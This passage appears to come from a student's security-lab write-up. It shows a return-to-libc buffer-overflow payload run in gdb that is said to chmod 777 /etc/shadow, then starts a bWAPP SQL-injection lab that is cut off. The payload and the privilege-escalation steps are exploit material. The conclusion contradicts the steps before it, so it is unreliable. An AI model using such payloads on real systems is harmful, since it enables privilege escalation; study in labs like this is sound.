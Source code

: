 ```
- exit: 0xf7e449e0 => \xe0\x49\xe4\f7
- /home/seed/seclabs/lab1/shellcode: 0xffffdeb8 => \xb8\xde\xff\xff

### 8. Attack

From them and the stackframe, we have this code:
```
r $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' +  '\xb8\xde\xff\xff')")
```

![image](https://github.com/user-attachments/assets/fc76c3e8-9c97-4e84-be48-4c3af0ede91b)

this technique overwrites key addresses on the stack to control program flow, making it possible to execute system commands (like calling system()) without crashing, and it avoids segmentation faults by properly managing return addresses.

### 9. Check result
The shellcode will executes chmod 777 /etc/shadow without having to sudo to escalate privilege. 

Therefore we can use this code to check for the result:
```
ls -l /etc/shadow
```

![image](https://github.com/user-attachments/assets/85a02647-3bfa-4a1e-8407-36d93f5e2fcd)

And by this picture, we can tell that the attack was successful.

**Conclusion**: By using the return-to-libc attack, the vulnerable program was exploited to execute the system call to copy the contents of /etc/passwd to /tmp/outfile. This verifies that the buffer overflow attack was performed successfully.


# Task 2: Attack on the database of bWapp 
### Install bWapp (refer to quang-ute/Security-labs/Web-security).

After run succesfully the apache2 and mysql:

![image](https://github.com/user-attachments/assets/4d165711-9da6-4a7d-81d8-323bafa2d588)

go to:

```http://localhost:8025/login.php```

![image](https://github.com/user-attachments/assets/4327f350-0101-47ab-a9ba-71e2029f030d)

and login, we have this interface:

![image](https://github.com/user-attachments/assets/d946c1bb-be2d-441a-a8b4-8c4225bb6ea6)

Choose sql injection (GET/Select)

![image](https://github.com/user-attachments/assets/faf0bc76-1584-40a8-ae3b-837539742f02)

Add a new movie, reload and get the cookies:

![image](https://github.com/user-attachments/assets/2afb6ea3-7bb2-46b0-8c9e-d9d4a4ad6ee7)

cookies in f12 --> application and reload: 21nqejl3n13tc632lbecfl46c1

![image](https://github.com/user-attachments/assets/1071c752-6b19-4b0d-b6c3-c0e2c30c316c)

So for this lab, the bWAPP security is low 

```